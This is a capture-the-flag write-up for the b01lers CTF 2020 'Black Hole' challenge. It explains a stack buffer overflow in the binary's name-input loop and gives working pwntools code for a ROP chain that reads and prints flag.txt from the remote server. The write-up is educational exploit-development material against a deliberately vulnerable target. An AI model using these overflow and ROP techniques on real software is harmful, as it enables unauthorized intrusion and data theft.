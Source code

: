 # b01lers CTF 2020

## Black Hole

> 200
> 
> Dave took a nap while flying home last Tuesday. When he woke up he was stuck. Save Dave
>
> `nc pwn.ctf.b01lers.com 1005`
>
> [9fb7f9675b14a3c60d143ee72c438f86](black-hole.tgz)
> 
> Note: Challenge is running in an Ubuntu 18.04 docker container.
>
> Author: nsnc


Tags: _pwn_ _rop_ _bof_

### Analysis

#### Decompile with Ghidra, cutter.re, r2, etc...

![](./black-hole1.png)

#### Checksec

```
[*] '/pwd/datajerk/b01lersctf/black-hole/black-hole'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Lines 11-16 do not limit input to 140 char (line 5) + _No stack canary found_ + _No PIE_ = **stack-based buffer overflow + ROP**.

#### More Decompiling

![](./black-hole2.png)

This looks both promising and useless at the same time.  `win` may read the flag, but it does not print it.  At least we know the name of the flag file.  Moving on...

#### Yet More Decompiling 

![](./black-hole3.png)

`readFile` will read the first `0x32` char of any file into an allocated buffer and then return a pointer (in `rax`) to that buffer.  This we can use.


### Exploit

#### Attack Plan

1. Overflow buffer to gain control of `rip`.  This will be a little trickier than a simple overflow to overwrite the base pointer and return address--`local_c` is in the way.
2. Set return address with a `pop rdi; ret` gadget to pop the address of `./flag.txt` into `rdi`.
3. Set #2's return address with `black-hole`'s `readFile` function.  `rdx` will have the address of the buffer holding the flag.
4. Set #3's return address with `mov rdi, rdx; call puts`.
5. Send payload, get the flag.


#### Overflow buffer to gain control of `rip`

```
  char local_98 [140];
  int local_c;
  
  ...
  
  local_c = 0;
  read(0,local_98,1);
  while (local_98[local_c] != '\n') {
    local_c = local_c + 1;
    read(0,local_98 + local_c,1);
  }
  local_98[local_c] = '\0';
```

The above loop reads one char at a time unless that char is a `\n`.  There are no other conditions to prevent a stack-based overflow.  However, `local_c` _is_ in the way.

```
#!/usr/bin/env python

from pwn import *
import sys

### overload buffer
payload = 140 * 'A'
payload += p8(151)
```

After writing 140 `A`s we need to consider what will happen to `local_c`, `local_c` is next in the stack as a 32-bit `int`.  Writing `151` will change the value to, well, `151`.  On the next pass of the loop `local_c` will be incremented to `152` and continue to accept our input.  There's no need to write out any zeros since `local_c` was initialized to `0x00000000` at the start of the loop.

**_Why 151?_**

```
Stack:
AAAAAAAA <= 0-7
...
AAAAAAAA <= 135
AAAA0000 <= 143
BBBBBBBB <= 151 Base Pointer
RRRRRRRR        Return Address
```

The 140 char buffer and 4 byte int (0-143) are just above the base pointer and the return address, by setting `local_c` to `151` at the `140` iteration we're moving the next read to `152` (`local_c` is incremented by one before the read).

The other option is `143`, and then 8 bytes to overwrite the base pointer.  Either will do, the difference will be a SIGSEGV vs. SIGBUS.  I'm not going to tell you how to live your life.


#### Set return address with a `pop rdi; ret` gadget, then address of `./flag.txt`

```
### find and add pop rdi gadget
context.clear(arch='amd64')
rop = ROP('black-hole')
try:
    rop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)
payload += p64(rop_rdi)
```

With `local_c` set to 151 the next 8 bytes written to the stack will overwrite the return address of `main`.  The above will find a ROP gadget that will pop the next stack item into `rdi` and then return (a.k.a pop the next item off the stack into `rip`).

We need this gadget to load `rdi` with the address to the text `./flag.txt` from the binary, so add that to the stack next:

```
### find location of ./flag.txt
binary = ELF('black-hole')
flag_txt = next(binary.search('./flag.txt'))
payload += p64(flag_txt)
```

#### Call `black-hole`'s `readFile` function and return pointer into `rax`

```
### readFile with pointer in rax
readFile = binary.symbols['readFile']
payload += p64(readFile)
```

Since _No PIE_, finding location with _search_ and _symbols_ is pretty trivial.

At this point in the payload `rop rdi; ret` will load up `rdi` with the `./flag.txt` string address and then call `readFile` returning the address to the flag contents in `rax`.  All that is left is to print it.


#### Set return address with `mov rdi, rdx; call puts`

Most code should have a `puts` statement or two.  Even if the coder used all `printf`, a `printf` with a static string will be optimized to `puts`.

We just need to find one:

```
# objdump -M intel -d black-hole | grep -B1 puts

0000000000400730 <puts@plt>:
  400730:	ff 25 f2 18 20 00    	jmp    QWORD PTR [rip+0x2018f2]        # 602028 <puts@GLIBC_2.2.5>
--
  4009bc:	48 8d 3d 3f 04 00 00 	lea    rdi,[rip+0x43f]        # 400e02 <_IO_stdin_used+0x22>
  4009c3:	e8 68 fd ff ff       	call   400730 <puts@plt>
--
  400a60:	48 8d 3d c7 03 00 00 	lea    rdi,[rip+0x3c7]        # 400e2e <_IO_stdin_used+0x4e>
  400a67:	e8 c4 fc ff ff       	call   400730 <puts@plt>
--
  400bd0:	48 89 c7             	mov    rdi,rax
  400bd3:	e8 58 fb ff ff       	call   400730 <puts@plt>
```

`0x400bd0` looks like exactly what we need.  Load `rdi` with the value from `rax` (pointer to flag text) and call `puts`:

```
payload += p64(0x400bd0)
```

#### Send payload, get flag

```
### get the flag
#p = process('./black-hole')
p = remote('pwn.ctf.b01lers.com',1005)
p.recvuntil('Name: ')
p.sendline(payload)
p.recvuntil('> ')
for i in range(8):
    p.sendline('d')

### let it all out man
p.stream()
```

The "game" prompts you for your name, that is where we send our payload to overload the stack, then we need to _lose_ the game to _win_ the game.  To do that we need to send 8 `d`s (only `a` and `d` does anything, read the code, play the game).

Output:

```
Throttle: 3
Gravity: 17
O     =>                                           |
> You lose AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb8!
Sorry, you died!
pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}
```

Flag: `pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}`


